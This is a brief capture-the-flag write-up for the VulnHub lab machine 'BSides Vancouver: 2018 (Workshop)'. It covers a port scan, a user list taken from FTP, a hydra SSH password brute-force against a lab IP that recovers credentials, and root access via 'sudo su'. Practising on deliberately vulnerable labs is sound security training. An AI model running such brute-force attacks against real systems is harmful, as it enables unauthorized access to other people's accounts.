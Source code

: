 <h1> BSides Vancouver: 2018 (Workshop) Write-up</h1>

<h2>NMAP</h2>

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.5
|_sslv2-drown: 
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
```

Found **"users.txt.bk"** from ftp:

users :

```
abatchy
john
mai
anne
doomguy
```

<h4>SSH BRUTE FORCE</h4>

```
hydra -L users.txt.bk -P rockyou.txt 192.168.56.36 ssh 

username : anne
password : princess
ssh anne@192.168.56.36
```
<h2>Privilege Escalation</h2>

sudo su 

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/BSides%20Vancouver%3A%202018%20(Workshop)/image/flag.png)
